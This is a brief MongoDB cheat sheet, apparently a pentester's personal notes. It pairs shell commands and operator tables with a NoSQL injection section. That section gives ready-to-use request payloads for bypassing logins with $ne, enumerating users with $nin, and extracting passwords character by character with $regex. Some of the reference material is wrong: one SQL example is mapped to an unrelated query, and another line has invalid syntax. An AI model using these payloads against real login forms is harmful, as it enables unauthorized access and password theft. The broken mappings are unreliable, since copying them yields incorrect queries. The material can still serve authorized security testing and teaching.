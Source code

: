 # Notes
- Hierarchy : database > collection (table) > documents (entries)
# Command lines
Connect
`mongo 1.1.1.1:27017/db`
List databases
`show dbs`
Swith database
`use dbname`
Show collections (tables)
`show collections`
Show collection entries (select from table)
`db.collname.find()`
# NoSQL
- SELECT * FROM collection WHERE last_name = 'Sandler';
`['last_name' => 'Sandler']`

- SELECT * FROM collection WHERE last_name = 'Phillips' AND gender = 'male';
`['last_name' => 'Phillips', 'gender' = 'male']`

- SELECT * FROM collection WHERE game >  50;
`['age' => ['$lt','Sandler']]`

# Operators reference
## Comparison
| Name | Description           |
| ---- | --------------------- |
| $eq  | equal                 |
| $gt  | greater than          |
| $gte | greater of equal than |
| $in  | contains              |
| $lt  | less than             |
| $lte | less or equal than    |
| $ne  | not equal             |
| $nin | not contains          |

## Logical
| Name | Description     |
| ---- | --------------- |
| $and | AND             |
| $not | NOT             |
| $nor | Combined negate |
| $or  | OR              |

# NoSQL Injections
## Login bypass
- Random user
Remplacer ?user=username&password=password par :
`user[$ne]=username&password[$ne]=password`

- Enumerate users
`user[$nin][]=admin&user[$nin][]=username1&user[$nin][]=username2&password[$ne]=password`

- Guess password length
`user[$nin][]=admin&pass[$regex]=^.{8}$&remember=on`

- Extract password
```
# Fuzz each character with burp
user=admin&pass[$regex]=A.......&remember=on
user=admin&pass[$regex]=AA......&remember=on
```